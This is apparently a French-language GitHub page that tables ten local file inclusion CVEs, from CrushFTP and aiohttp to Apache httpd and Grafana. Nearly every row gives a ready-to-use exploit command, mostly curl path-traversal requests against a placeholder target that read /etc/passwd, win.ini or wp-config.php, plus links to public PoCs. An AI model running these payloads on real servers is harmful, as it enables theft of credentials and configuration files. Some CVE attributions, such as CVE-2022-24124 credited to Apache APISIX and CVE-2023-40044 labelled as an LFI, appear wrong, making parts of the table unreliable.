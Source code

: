 # LFI

Voici un tableau de **CVE majeures de Local File Inclusion (LFI)**, toutes technologies confondues, pour lesquelles **un exploit public ou PoC est disponible**.  
Chaque ligne inclut :  
- Technologie et version concernée  
- Commande d’exploitation complète (requête, payload, script…)  
- Effet détaillé  
- Lien direct vers un PoC/exploit public

---

| **CVE** | **Technologie / Versions concernées** | **Commande d’exploitation complète** | **Effet détaillé** | **Lien PoC / Exploit** |
|---------|---------------------------------------|--------------------------------------|--------------------|------------------------|
| CVE-2024-4040 | CrushFTP < 10.7.1 | `python3 exploit.py --url http://cible:8080 --file /etc/passwd`<br>(voir PoC pour automatisation LFI/SSTI) | LFI et SSTI : inclusion et lecture de fichiers arbitraires, extraction de données sensibles (ex : `/etc/passwd`). | [https://github.com/Stuub/CVE-2024-4040-SSTI-LFI-PoC](https://github.com/Stuub/CVE-2024-4040-SSTI-LFI-PoC) |
| CVE-2024-9405 | Pluck CMS v4.7.18 | `curl "http://cible/data/modules/albums/albums_getimage.php?image=../../config.php"` | LFI non authentifié : lecture de fichiers arbitraires du serveur via le paramètre `image`. | [https://m3n0sd0n4ld.github.io/patoHackventuras/cve-2024-9405](https://m3n0sd0n4ld.github.io/patoHackventuras/cve-2024-9405) |
| CVE-2024-51058 | TCPDF 6.7.5 | `<img src="file:///etc/passwd">` ou<br>`curl "http://cible/tcpdf.php?file=/etc/passwd"` | LFI via balise `<img>` ou paramètre de fichier, permettant la lecture de fichiers arbitraires sur le serveur. | [https://github.com/saravana-hackz/vulnerability-research/tree/main/CVE-2024-51058](https://github.com/saravana-hackz/vulnerability-research/tree/main/CVE-2024-51058) |
| CVE-2024-23334 | Python aiohttp < 3.9.2 | `bash lfi-aiohttp.sh http://cible:8080 ../../../../etc/passwd`<br>(script PoC automatisant le LFI sur serveurs aiohttp vulnérables) | LFI non authentifié : lecture de fichiers arbitraires sur le système via routes statiques mal configurées. | [https://github.com/TheRedP4nther/LFI-aiohttp-CVE-2024-23334-PoC](https://github.com/TheRedP4nther/LFI-aiohttp-CVE-2024-23334-PoC) |
| CVE-2024-42902 | LimeSurvey < 6.4.12 | `curl "http://cible/index.php/admin/database/index?dbfile=../../../../etc/passwd"` | LFI via paramètre `dbfile`, permettant la lecture de fichiers arbitraires. | [https://security.snyk.io/vuln/SNYK-PHP-LIMESURVEYLIMESURVEY-7888153](https://security.snyk.io/vuln/SNYK-PHP-LIMESURVEYLIMESURVEY-7888153) |
| CVE-2023-40044 | WS_FTP Server < 8.7.4, < 8.8.2 | `curl "http://cible/Aws/App_Data/../../../../../../../../windows/win.ini"` | LFI permettant la lecture de fichiers arbitraires sur le serveur Windows. | [https://github.com/horizon3ai/CVE-2023-40044](https://github.com/horizon3ai/CVE-2023-40044) |
| CVE-2022-45444 | WordPress plugin DZS ZoomSounds < 6.69 | `curl "http://cible/wp-content/plugins/dzs-zoomsounds/inc/dzs_functions.php?dzsap_base_path=../../../../wp-config.php"` | LFI via le paramètre `dzsap_base_path`, permettant la lecture de fichiers sensibles. | [https://github.com/RandomRobbieBF/CVE-2022-45444](https://github.com/RandomRobbieBF/CVE-2022-45444) |
| CVE-2022-24124 | Apache APISIX < 2.12.1 | `curl "http://cible/apisix/admin/migrate/export?file_path=../../../../../../../../etc/passwd"` | LFI via le paramètre `file_path`, permettant la lecture de fichiers arbitraires. | [https://github.com/cckuailong/CVE-2022-24124](https://github.com/cckuailong/CVE-2022-24124) |
| CVE-2021-41773 | Apache HTTP Server 2.4.49 | `curl "http://cible/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"` | LFI et path traversal via double encodage, permettant la lecture de fichiers arbitraires, voire exécution de code si CGI activé. | [https://github.com/worawit/CVE-2021-41773](https://github.com/worawit/CVE-2021-41773) |
| CVE-2021-43798 | Grafana < 8.3.1 | `curl "http://cible:3000/public/plugins/../../../../../../../../../../etc/passwd"` | LFI via l’API plugin, permettant la lecture de fichiers arbitraires sur le serveur. | [https://github.com/jas502n/Grafana-v8.3.0-path-traversal](https://github.com/jas502n/Grafana-v8.3.0-path-traversal) |

---

